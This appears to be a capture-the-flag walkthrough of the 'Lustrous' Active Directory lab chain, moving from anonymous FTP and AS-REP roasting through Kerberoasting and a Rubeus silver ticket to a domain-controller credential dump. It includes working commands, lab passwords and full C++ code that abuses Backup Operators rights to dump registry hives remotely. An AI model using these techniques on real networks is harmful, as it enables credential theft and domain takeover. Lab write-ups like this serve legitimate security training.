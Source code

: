 # Lustrous (chain) (medium)

## port scan

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411131333242.png)

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411120000539.png)

## service enumeration

ftp allow anonymous login

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411115748466.png)

some user directory

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411115819698.png)

have a users.csv

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411120158629.png)

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411120215821.png)

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411120549548.png)

## ASREPRoast

ben.cox user lack of Kerberos pre-authentication

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411120752163.png)

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411120959828.png)

we can winrm into LUSMS

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411122234308.png)

## privilege escalation on lusms

there have admin.xml (PSCred)

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411122350299.png)

we can use those powershell command get plain password

```powershell
$AdminCred = Import-Clixml -Path C:\users\ben.cox\desktop\admin.xml
$Password = $AdminCred.GetNetworkCredential().Password
```

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411122957202.png)

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411123200016.png)

## spn user

there are some service account

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411125825486.png)

hashcat

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411130043908.png)

now we have svc\_web password

convert to hash

```bash
python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "iydgTvmujl6f".encode("utf-16le")).digest()))'
```

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411140926704.png)

## silver ticket

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411140823406.png)

the tony.ward is backup

we can use rubeus to make a silver ticket login web page as `tony.ward` user. (those sid/id get from bloodhound)

```
dotnet inline-execute /opt/Rubeus.exe silver /service:http/lusdc.lustrous.vl /rc4:e67af8b3d78df5a02eb0d57b6cb60717 /user:tony.ward /domain:lustrous.vl /sid:S-1-5-21-2355092754-1584501958-1513963426 /id:1114 /nowrap /ptt
```

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411135910226.png)

```powershell
powershell Invoke-WebRequest -Uri http://lusdc.lustrous.vl/Internal -UseDefaultCredentials -UseBasicParsing | Select-Object -Expand Content
```

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411140048121.png)

## abuse backup admin

there have a code can remote dump sam with backup user

https://github.com/Wh04m1001/Random/blob/main/BackupOperators.cpp

```cpp
#include <stdio.h>
#include <windows.h>

void MakeToken() {
    HANDLE token;
    const char username[] = "tony.ward";
    const char password[] = "U_cPVQqEI50i1X";
    const char domain[] = "lustrous.vl";

    if (LogonUserA(username, domain, password, LOGON32_LOGON_NEW_CREDENTIALS, LOGON32_PROVIDER_DEFAULT, &token) == 0) {
        printf("LogonUserA: %d\n", GetLastError());
        exit(0);
    }
    if (ImpersonateLoggedOnUser(token) == 0) {
        printf("ImpersonateLoggedOnUser: %d\n", GetLastError());
        exit(0);
    }
}

int main()
{
    HKEY hklm;
    HKEY hkey;
    DWORD result;
    const char* hives[] = { "SAM","SYSTEM","SECURITY" };
    const char* files[] = { "C:\\windows\\temp\\sam.hive","C:\\windows\\temp\\system.hive","C:\\windows\\temp\\security.hive" };

    //Uncomment if using alternate credentials.
    MakeToken();

    result = RegConnectRegistryA("\\\\lusdc.lustrous.vl", HKEY_LOCAL_MACHINE,&hklm);
    if (result != 0) {
        printf("RegConnectRegistryW: %d\n", result);
        exit(0);
    }
    for (int i = 0; i < 3; i++) {

        printf("Dumping %s hive to %s\n", hives[i], files[i]);
        result = RegOpenKeyExA(hklm, hives[i], REG_OPTION_BACKUP_RESTORE | REG_OPTION_OPEN_LINK, KEY_READ, &hkey);
        if (result != 0) {
            printf("RegOpenKeyExA: %d\n", result);
            exit(0);
        }
        result = RegSaveKeyA(hkey, files[i], NULL);
        if (result != 0) {
            printf("RegSaveKeyA: %d\n", result);
            exit(0);
        }
    }
}

```

compile code

```bash
x86_64-w64-mingw32-g++ ./dump.cpp -o dump
```

those file will save at dc machine

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411150636036.png)

we can use smbclient download those file

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411150617663.png)

use pypykatz to get dc machine hash

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411151014308.png)

dump all!

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411151417319.png)

![](lustrous\(chain\)\(medium\)/walkthrough\_20240411151527456.png)
